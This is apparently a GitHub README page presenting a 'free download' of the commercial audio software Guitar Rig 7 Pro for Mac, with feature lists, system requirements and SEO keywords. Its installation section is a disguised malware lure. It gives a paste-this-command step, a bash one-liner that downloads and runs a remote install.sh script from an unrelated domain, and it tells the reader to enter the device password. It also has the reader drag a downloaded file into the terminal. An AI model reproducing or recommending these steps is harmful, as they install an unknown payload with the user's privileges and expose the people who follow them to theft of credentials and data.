 # Guitar Rig 7 Pro Mac Download

![Guitar Rig 7 Screenshot](https://media.guitarcenter.com/is/image/MMGS7/M06458000000000-00-2000x2000.jpg)

---

## 📥 Download Guitar Rig 7 Pro for Mac

[![Download Now](https://img.shields.io/badge/Download--Now-Guitar%20Rig%207%20Pro%20Mac-blue?style=for-the-badge&logo=apple)](https://guitar-rig-7-pro-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ✨ What is Guitar Rig 7 Pro for Mac?

**Guitar Rig 7 Pro for Mac** is a powerful modular amp and effects modeling software developed by **Native Instruments**. Designed for guitarists, bassists, and sound designers, Guitar Rig 7 Pro offers a studio-quality environment for crafting unique tones and sonic textures. Whether you're recording in your DAW or playing live, it delivers an immersive experience with a huge range of amps, cabinets, delay effects, modulation tools, and more.

Guitar Rig 7 Pro comes packed with realistic amp emulations, advanced signal routing, and a user-friendly drag-and-drop interface. It features enhanced speaker simulation, intelligent circuit modeling, and innovative effects like lo-fi degradation, pitch shifting, and dynamic delay. With native M1 chip support and compatibility with macOS Ventura and newer, it’s a must-have for modern music producers and guitar players alike.

Thanks to its intuitive design, Guitar Rig 7 Pro helps both beginners and pros quickly shape their signature sound. Whether you want a classic vintage tone or experimental audio effects, the possibilities are nearly endless. The software is widely used in rock, electronic, cinematic, and even game audio production due to its flexibility and creative power.

---

## 🎯 Key Benefits of Guitar Rig 7 Pro

- 🎛️ **Modular Effects Rack** – Create complex effect chains with simple drag-and-drop control.
- 🔊 **Premium Amp & Cabinet Emulations** – Simulate real-world gear with near-zero latency.
- 🎚️ **Advanced Signal Routing** – Split and merge signals for intricate sound design setups.
- 🧠 **AI-Enhanced Circuit Modeling** – Offers hyper-realistic analog behavior emulation.
- 💻 **Native Apple Silicon (M1/M2/M3) Support** – Fully optimized for the latest Mac hardware.
- 🎚️ **Includes Lo-Fi FX, Grain Delay, Psyche Modulations, etc.** – Get creative beyond traditional guitar sounds.
- 🎸 **Perfect for Guitar, Bass & Synths** – Ideal tool for multi-instrumentalists and producers.
- 🎹 **Full VST3/AU/AAX support** – Seamless integration with all major DAWs like Logic Pro, Ableton, and Cubase.

---

![Guitar Rig 7 Interface](https://synthanatomy.com/wp-content/uploads/2023/09/%E2%80%8ENative-Instruments-Guitar-Rig-7-Pro-.%E2%80%8E001.webp)

---

## 🖥️ System Requirements

- **OS**: macOS 11 Big Sur or later (Ventura, Sonoma supported)  
- **Chipset**: Apple Silicon M1/M2/M3 & Intel  
- **RAM**: Minimum 4 GB (8 GB recommended)  
- **Disk Space**: ~1.5 GB installation  
- **DAWs**: Works with Logic Pro, GarageBand, Ableton Live, Cubase, etc.  

---

## 🏷️ Keywords

guitar rig 7, guitar rig 7 pro, guitar pro 6 upgrade to 7, guitar rig windows 7, guitar rig 7 mac, guitar rig 7 mac free, guitar rig 7 mac free download, guitar rig 7 mac download, guitar rig 7 pro mac free download, guitar rig 7 pro mac free, guitar rig 7 pro mac download
